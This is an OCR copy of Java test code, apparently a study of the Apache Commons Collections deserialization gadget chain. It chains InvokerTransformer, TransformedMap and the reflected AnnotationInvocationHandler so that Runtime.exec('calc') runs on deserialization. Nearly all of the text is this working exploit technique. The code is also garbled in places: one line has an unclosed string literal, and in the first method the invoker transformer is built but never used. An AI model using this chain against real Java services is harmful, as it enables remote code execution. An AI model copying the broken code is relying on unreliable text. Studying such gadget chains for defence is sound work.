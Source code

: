 ```
    
    public void invokeExec1() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(                
            "exec",                
            new Class[]{String.class},                
            new Object[]{"calc"}
        );
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "null");
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, constantTransformer);
        
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(null);
        }
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
    
    @Test
    
    public void test() throws IOException{
        AnnotationType annotationType = AnnotationType.getInstance(Target.class);
        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        for (Map.Entry<String, Class<?>> entry : memberTypes.entrySet()) {
            System.out.println(entry);
        }
    }
    
    @Test
    public void test1() throws Exception {
        ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.getRuntime());
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec,
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
            constantTransformer,
            invokerTransformer
        });
        chainedTransformer.transform("随便不知道");
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "null");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
}
```  
  